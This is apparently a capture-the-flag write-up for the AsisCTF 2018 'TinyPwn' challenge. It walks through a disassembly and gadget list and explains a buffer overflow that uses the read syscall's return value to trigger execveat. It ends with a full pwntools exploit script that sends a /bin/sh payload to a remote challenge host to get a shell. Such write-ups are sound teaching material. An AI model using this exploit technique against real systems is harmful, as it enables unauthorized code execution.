 # TinyPwn AsisCTF Quals 2018

I did this problem at school, so I didn't have idea xD. You'll have to bear with objdump.

Objdumping the binary we get:

```TinyPwn:     file format elf64-x86-64


Disassembly of section .text:

00000000004000b0 <.text>:
  4000b0:       48 31 c0                xor    %rax,%rax
  4000b3:       48 31 db                xor    %rbx,%rbx
  4000b6:       48 31 c9                xor    %rcx,%rcx
  4000b9:       48 31 d2                xor    %rdx,%rdx
  4000bc:       48 31 ff                xor    %rdi,%rdi
  4000bf:       48 31 f6                xor    %rsi,%rsi
  4000c2:       4d 31 c0                xor    %r8,%r8
  4000c5:       4d 31 c9                xor    %r9,%r9
  4000c8:       4d 31 d2                xor    %r10,%r10
  4000cb:       4d 31 db                xor    %r11,%r11
  4000ce:       4d 31 e4                xor    %r12,%r12
  4000d1:       4d 31 ed                xor    %r13,%r13
  4000d4:       4d 31 f6                xor    %r14,%r14
  4000d7:       4d 31 ff                xor    %r15,%r15
  4000da:       48 31 ed                xor    %rbp,%rbp
  4000dd:       e8 10 00 00 00          callq  0x4000f2
  4000e2:       b8 3c 00 00 00          mov    $0x3c,%eax
  4000e7:       48 31 ff                xor    %rdi,%rdi
  4000ea:       48 31 f6                xor    %rsi,%rsi
  4000ed:       48 31 d2                xor    %rdx,%rdx
  4000f0:       0f 05                   syscall 
  4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
  4000f9:       48 89 e6                mov    %rsp,%rsi
  4000fc:       ba 48 01 00 00          mov    $0x148,%edx
  400101:       0f 05                   syscall 
  400103:       48 81 c4 28 01 00 00    add    $0x128,%rsp
  40010a:       c3                      retq ```

  It is a tiny binary indeed. It uses syscalls to read 0x148 bytes, then returns. Easy buffer overflow. We quickly find that the padding is 0x128 until the ret address. The problem is how do we get a shell?

  We can use ROPgadget to get a list of gadgets:

  ```Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x00000000004000ff : add byte ptr [rax], al ; syscall
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x00000000004000e9 : dec dword ptr [rax + 0x31] ; test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000fc : mov edx, 0x148 ; syscall
0x00000000004000fa : mov esi, esp ; mov edx, 0x148 ; syscall
0x00000000004000f9 : mov rsi, rsp ; mov edx, 0x148 ; syscall
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x00000000004000f0 : syscall
0x00000000004000ec : test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000e8 : xor edi, edi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ee : xor edx, edx ; syscall
0x00000000004000eb : xor esi, esi ; xor rdx, rdx ; syscall
0x00000000004000e7 : xor rdi, rdi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ed : xor rdx, rdx ; syscall
0x00000000004000ea : xor rsi, rsi ; xor rdx, rdx ; syscall```

We don't have much at our disposal, so my idea was syscall. Looking at the list of syscalls here: ```http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/``` we see that sys_execve is 0x3b. However, we don't have a pop rax gadget! :(

To get around this, we have to realize that the read syscall sets rax to be the length of the bytes read. However it requires 0x128 bytes to reach the ret address, and 0x128 > 0x3b. So we use stub_execveat instead, with opcode 0x142. For this syscall, rsi is the pointer to the execve file name, which is conveniently our buffer. Debugging this, we also find that we need to zero our rdx, otherwise it would crash, which we have a gadget for at 0x4000ed.

Final attack plan:
1) Make our input string start with /bin/sh\x00
2) Make our input string length 0x142
3) Zero out rdx
4) Syscall and get shell

```python
from pwn import *

r = process("./TinyPwn")
r = remote("159.65.125.233", 6009)

payload = "/bin/sh\x00" + "B"*(0x148-(8*4) - 8)
payload += p64(0x00000000004000ed)
payload += p64(0x400101)
payload += "A"*(0x142-len(payload)-1)

r.sendline(payload)
r.interactive()```
